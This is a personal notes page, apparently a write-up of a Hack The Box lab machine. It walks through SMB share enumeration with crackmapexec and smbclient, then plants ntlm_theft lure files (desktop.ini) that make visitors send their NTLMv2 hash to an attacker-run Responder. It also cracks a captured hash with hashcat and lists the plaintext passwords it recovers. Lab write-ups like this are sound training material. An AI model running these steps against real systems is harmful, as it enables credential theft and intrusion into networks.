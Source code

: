 ![[Pasted image 20250114203734.png]]
Re-enumerating shares with these creds.

`cme smb 10.10.11.187 -u s.moon -p 'S@Ss!K@*t13' --shares

![[Pasted image 20250114203858.png]]
We have read,write access to the "Shared" share. 

Use #smbclient to connect

`smbclient -U s.moon //10.10.11.187/shared`

![[Pasted image 20250114204058.png]]
We want to steal NTLM hashes of users using #ntlm_theft [[NTLM_Theft]]

GitHub: https://github.com/Greenwolf/ntlm_theft

Clone this repo and run it with 

`python3 ntlm_theft.py -g all -s 10.10.14.8 -f PleaseSubscribe`

to generate a bunch of files.

![[Pasted image 20250114204708.png]]

Ensure we have s.moon's smb connection

`smbclient -U s.moon //10.10.11.187/shared`

Set up #responder 

`sudo python3.8 Responder.py -I tun0`

![[Pasted image 20250114204921.png]]

Use `put` command with smbclient to place the theft files on the remote smb share. 

`put PleaseSubscribe.scf`

![[Pasted image 20250114205105.png]]
Got access denied. 

Try `desktop.ini`

![[Pasted image 20250114205156.png]]
This worked. 

We get the NTLM hash. 

![[Pasted image 20250114205305.png]]
Try to crack this hash using #hashcat and the #rockyou wordlist 

`./hashcat.bin hashes/flight.ntlmv2 /opt/wordlist/rockyou.txt`

![[Pasted image 20250114205439.png]]

We see `c.bum`'s password is cracked to `Tikkycoll_431012284`
